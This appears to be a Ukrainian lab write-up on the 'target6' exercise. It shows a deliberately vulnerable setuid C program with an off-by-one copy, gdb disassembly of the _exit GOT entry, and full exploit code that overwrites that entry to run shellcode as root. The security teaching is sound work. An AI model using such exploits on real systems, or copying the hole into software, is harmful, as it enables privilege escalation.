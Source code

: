 # Global offset table

target6:

```c
void nstrcpy(char *out, int outl, char *in)
{
  int i, len;

  len = strlen(in);
  if (len > outl)
    len = outl;

  for (i = 0; i <= len; i++)
    out[i] = in[i];
}

void bar(char *arg)
{
  char buf[200];

  nstrcpy(buf, sizeof buf, arg);
}
 


void foo(char *argv[])
{
  int *p;
  int a = 0;
  p = &a;

  bar(argv[1]);

  *p = a;

  _exit(0);
  /* not reached */
}

int main(int argc, char *argv[])
{
  if (argc != 2)
    {
      fprintf(stderr, "target6: argc != 2\n");
      exit(EXIT_FAILURE);
    }
  setuid(0);
  foo(argv);
  return 0;
}
```

Загальна структура цього експерименту аналогічна структурі 2 лабораторної, але різниця полягає в додаванні змінної-покажчика p і константи a в функцію foo \(\), різниця полягає в тому що в foo \_exit \(0\) викликається в кінці, тому навіть якщо адрес повернення змінений, ми не зможемо це використати. Адреса покажчика p знаходиться в ebp + 4, а адреса змінної a розташований в ebp + 8. Придивившись до функції foo: після виклику функції виконується \* p = a, тобто вміст покажчика змінюється. Якщо ми взнаємо адресу \_exit та змінимо адрес \_exit на адресу шелл-коду, ми зможемо перейти в оболонку. Спочатку дизасемблюємо функцію foo:

```bash
(gdb) disass foo 

   0x0804855d <+0>: push% ebp 
   0x0804855e <+1>: mov% esp,% ebp 
   0x08048560 <+3>: sub $ 0x8,% esp 
   0x08048563 < +6>: movl $ 0x0, -0x8 (% ebp) 
   0x0804856a <+13>: lea -0x8 (% ebp),% eax 
   0x0804856d <+16>: mov% eax, -0x4 (% ebp) 
   0x08048570 <+19 >: mov 0x8 (% ebp),% eax 
   0x08048573 <+22>: add $ 0x4,% eax 
   0x08048576 <+25>: mov (% eax),% eax 
   0x08048578 <+27>: push% eax 
   0x08048579 <+28 >: call 0x804853a <bar> 
   0x0804857e <+33>: add $ 0x4,% esp 
   0x08048581 <+36>: mov -0x8 (% ebp),% edx 
   0x08048584 <+39>:mov -0x4 (% ebp),% eax
   0x08048587 <+42>: mov% edx, (% eax) 
   0x08048589 <+44>: push $ 0x0 
 =>0x0804858b <+46>: call 0x8048380 <_exit @ plt>
```

Ми бачимо, що \_exit \(\) знаходиться за адресою 0x8048380 Дизасемблювавши код з цієї адреси ми бачимо, що виконується jmp інструкція на адресу, що знаходиться у вказівнику.

```bash
(gdb) disass 0x8048380
Dump of assembler code for function _exit@plt:
   0x08048380 <+0>: jmp    *0x804a00c
   0x08048386 <+6>: push   $0x0
   0x0804838b <+11>:  jmp    0x8048370
End of assembler dump.
```

Отже, ми повинні змінити \_exit на адресу потрібного нам шеллкода. Те, що нам потрібно зробити це:

```text
* (int *) (0x804a00c) = 0xbffffcc0
```

Процес переповнення відбувається наступним чином:

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target6"

int main(void)
{
  char sploitstring[201];
  memset(sploitstring, '\x90', sizeof(sploitstring));
  sploitstring[200] = 0;
  int offset = 0xbffffd00 - 0xbffffcc0;
  *(int *) (sploitstring + offset - 4) = 0x0804a00c;
  *(int *) (sploitstring + offset - 8) = 0xbffffcc0;

  memcpy(sploitstring, shellcode, strlen(shellcode));

  char *args[] = { TARGET, sploitstring, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```

